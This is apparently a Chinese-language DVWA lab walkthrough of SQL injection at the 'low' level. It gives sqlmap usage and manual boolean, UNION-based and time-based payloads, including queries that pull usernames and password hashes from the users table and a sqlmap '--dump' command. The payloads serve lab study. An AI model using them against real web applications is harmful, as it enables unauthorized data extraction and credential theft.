 [TOC]

# low

使用sqlmap寻找可能存在的注入点

![low0](image/low0.png)



## 手动注入

根据sqlmap的测试结果，存在以下几种注入类型

### boolean-based blind（基于布尔）

可以猜测查询语句的代码是

```
select First name的列名 and Surname的列名 from 表名 where id的列名 ='输入的id'
```

查看源码：确实没有对用户输入进行过滤

![low3](image/low3.png)

根据sqlmap的payload进行注入测试。（#后面是注释）

```
id=1' OR NOT 4752=4752#
id=1' OR 4752=4752#
```

dvwa的返回结果

![low2](image/low2.png)



查询数据库名

```
1' union select 1,database()#
```

查询数据库中的表的结构

```
1' union select 1,column_name from information_schema.columns where table_name='users'#
```

可以爆出表的数据

```
1' union select 1,concat(user,password) from users#
```



### AND/OR time based blind

```
id=1' AND SLEEP(5)#
```

### error-based



##利用sqlmap

`--dump`即可曝出数据库中全部数据

`python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=7so5ddo0ufrpp8ff0kae9k8ra7; security=low" --dump`

![low1](image/low1.png)



`--dbs`曝出数据库

